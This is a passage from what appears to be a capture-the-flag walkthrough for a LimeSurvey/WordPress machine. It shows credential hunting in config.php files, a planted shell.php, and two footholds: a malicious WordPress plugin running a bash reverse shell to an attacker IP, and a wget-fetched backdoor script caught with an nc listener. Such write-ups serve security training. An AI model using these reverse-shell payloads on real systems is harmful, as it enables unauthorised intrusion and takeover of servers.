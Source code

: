 ```
-rwxr-xr-x  1 www-data www-data 1.2K Feb 14  2019 phpci.yml
-rwxr-xr-x  1 www-data www-data  638 Feb 14  2019 phpunit.xml
drwxr-xr-x  4 www-data www-data 4.0K Feb 14  2019 plugins
-rw-r--r--  1 www-data www-data   29 Apr  1 02:07 shell.php
drwxr-xr-x 11 www-data www-data 4.0K Feb 14  2019 tests
drwxr-xr-x  5 www-data www-data 4.0K Feb 14  2019 themes
drwxr-xr-x 38 www-data www-data 4.0K Feb 14  2019 third_party
drwxr-xr-x  5 www-data www-data 4.0K Jul 23  2020 tmp
drwxr-xr-x  6 www-data www-data 4.0K Feb 14  2019 upload

$ find . -name 'config.php' 2>/dev/null
./framework/messages/config.php
./application/config/config.php
./third_party/kcfinder/conf/config.php
```
Read the file and get that user:password combination! 

PS: Simply by going to the Wordpress site gives us the username ;)

Take a look around and find the login page.

To connect to the machine as `anny` there are some options:

1. Upload a shell. 

This can be done by editing a plugin or simply adding a plugin (in `zip` format), set up a listener and activate the plugin!

For example:

```
?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'");

?>
```

2. Create a "backdoor"

As simple as creating a file with the following:

```
#!/bin/bash

bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

Serve an HTTP port with `python -m http.server` and `wget` the backdoor in the restricted shell. Open a listener, change the permissions and run the file!

```
$ nc -lnvp 4444        
listening on [any] 4444 ...
connect to [<attacker-ip>] from (UNKNOWN) [<ip-address>] 49052
bash: cannot set terminal process group (1007): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/limesurvey$
```
